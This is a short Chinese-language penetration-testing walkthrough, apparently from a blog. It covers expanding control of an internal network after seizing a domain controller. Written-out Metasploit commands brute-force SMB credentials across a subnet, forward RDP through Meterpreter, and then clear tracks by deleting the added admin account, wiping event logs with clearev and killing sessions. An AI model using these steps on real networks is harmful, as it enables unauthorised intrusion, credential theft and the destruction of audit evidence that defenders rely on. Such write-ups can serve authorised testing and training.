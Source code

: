 ![40.jpg](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/1217431325.jpg)



我们有了域控，接下来只要快速在内网扩大控制权限就好

- 利用当前获取的域控，对整个内网IP段进行扫描
- 使用SMB下的smb_login模块
- 端口转发或者Socks代理进内网

我们先在Metasploiti添加路由，然后使用smb_login模块或者psexec_scanner模块进行爆破



```
route add xxxxxx
use auxiliary/scanner/smb/smb_login
set RHOSTS xxxxxx/24
set SMBUser xx		//管理员账户
set SMBPass xx
set SMBDomain MEDABIL
set THREADS 16		//线程设置
```



我们这样就获取了大量内网服务器的密码，下面就可以畅游内网了。可以使用Meterpreter的端口转发，也可以使用Metasploit下的Socks4a模块或者第三方软件。

这里简单地使用Meterpreter的端口转发即可

```
portfwd add -l 5555 -p 3389 -r 127.0.0.1
```





## 清理日志

清理日志主要有以下几个步骤

- 删除之前添加的域管理账号
- 删除所有在渗透过程中使用过的工具
- 删除应用程序、系统和安全日志
- 关闭所有的Meterpreter连接



**cmd下**

```
net user test /del
logoff
```

**Meterpreter Shell**

```
clearev
sessions -K
```

